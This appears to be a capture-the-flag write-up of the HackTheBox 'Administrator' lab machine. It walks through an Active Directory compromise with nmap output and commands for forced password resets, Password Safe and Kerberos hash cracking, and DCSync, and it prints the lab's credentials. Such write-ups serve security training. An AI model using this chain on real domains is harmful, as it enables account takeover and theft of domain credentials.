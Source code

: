 ```yaml
---
title: "TryHackMe - Administrator"
permalink: /CTFs/HTB-Administrator/
date: 2024-11-22
categories: [HackTheBox]
tags: [Active Directory, PsRemote, DCSync, GenericWrite]
math: true
mermaid: true
image:
  path: /assets/img/CTFs/Administrator/back.jpg
---
```

This machine necessitates a basic understanding of active directory and how to take use of both `DCSync` and `GenericWrite` misconfigurations.\
The author provides creds for initial access
> As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account: Olivia / ichliebedich

## Recon
Nmap output
``` bash
# Nmap 7.94SVN scan initiated Fri Nov 22 20:56:56 2024 as: nmap --privileged -sC -sV -T4 -p- -oN nmap.scan -vv 10.10.11.42
Increasing send delay for 10.10.11.42 from 0 to 5 due to 677 out of 1691 dropped probes since last increase.
Increasing send delay for 10.10.11.42 from 5 to 10 due to 11 out of 18 dropped probes since last increase.
Nmap scan report for administrator.htb0 (10.10.11.42)
Host is up, received echo-reply ttl 127 (0.17s latency).
Scanned at 2024-11-22 20:56:56 EET for 819s
Not shown: 65509 closed tcp ports (reset)
PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-11-22 19:32:19Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
62760/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
65336/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
65341/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
65352/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
65363/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
65399/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 35406/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 26601/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 52617/udp): CLEAN (Timeout)
|   Check 4 (port 36581/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time:
|   date: 2024-11-22T19:33:17
|_  start_date: N/A
|_clock-skew: 22m51s

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov 22 21:10:35 2024 -- 1 IP address (1 host up) scanned in 819.81 seconds
```
port `88` is open so  it’s highly likely a Domain Controller, from ldap output we can see the domain is `administrator.htb`.

After adding it to `/etc/hosts` I started to mess around in `SMB` shares but it was fruitless, I noticed port `21` is running so I tried to connect to it using the provided creds but I couldn't with this user

I run bloodhound to get more info
```bash
bloodhound-python -u Olivia -p  -c All -d ichliebedich -dc administrator.htb -ns 10.10.11.42
```

---
## User flag

After messing around in `bloodhound` I noticed this
![image](/assets/img/CTFs/Administrator/olivia_micheal.png)
`GenericAll` gives the right to `Olivia` to change `Micheal` Password without knowing it, so I used `net.exe` (connected with `evil-winrm` using `olivia` creds) to change `Micheal` password
```bash
net user micheal michealpassword123!
```

After owning `micheal` I searched for his rights and I found the following
![image](/assets/img/CTFs/Administrator/michael_benjamin.png)
I tried using `net` cmdlet again but it failed, so I used `bloodyAD`
```bash
bloodyAD.py --host "10.10.11.42" -d "administrator.htb" -u "michael" -p "michealpassword123!" set password "benjamin" "benjaminpassword123!"
```
Now we own 3 users.

I got stuck here for some time but I remembered the open port on `21`, so tried to connect to it with the newly-owned users and got a hit on the `benjamin` user

There was a file called `Backup.psafe3` so I donwloaded it, I searched for applications that support this type of files and I found [password safe](https://pwsafe.org/).
> the file can also be dowloaded using NetExec:
```bash
nxc ftp administrator.htb -u 'benjamin' -p ****** --get Backup.psafe3
```



The app asked for the file and master password for the file, `hashcat` has module for it
```bash
hashcat Backup.psafe3 /usr/share/wordlists/rockyou.txt -m 5200 --force
```
And it cracked the safe!
![image](/assets/img/CTFs/Administrator/safe.png)

`emily` passowrd was valid
![image](/assets/img/CTFs/Administrator/user_pwned.png)

---
## Root flag
After poking around I saw something interesting
![image](/assets/img/CTFs/Administrator/methodology.png)

`emily` has `GenericWrite` over `ethan`, and `ethan` has `DCSync` over the domain. So our methodology here is going to be getting the hash for `ethan` and crack it to be able to get the hash of `administrator`.

### GenericWrite
It can be exploited using [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)
![image](/assets/img/CTFs/Administrator/ethan_hash.png)
running `hashcat` on the hash and it was crackable

### DCSync
with `ethan` password now we can use `secretsdump` from Impacket to get `administrator` hash
![image](/assets/img/CTFs/Administrator/admin_hash.png)

And the machine is pwned
![image](/assets/img/CTFs/Administrator/root_pwned.png)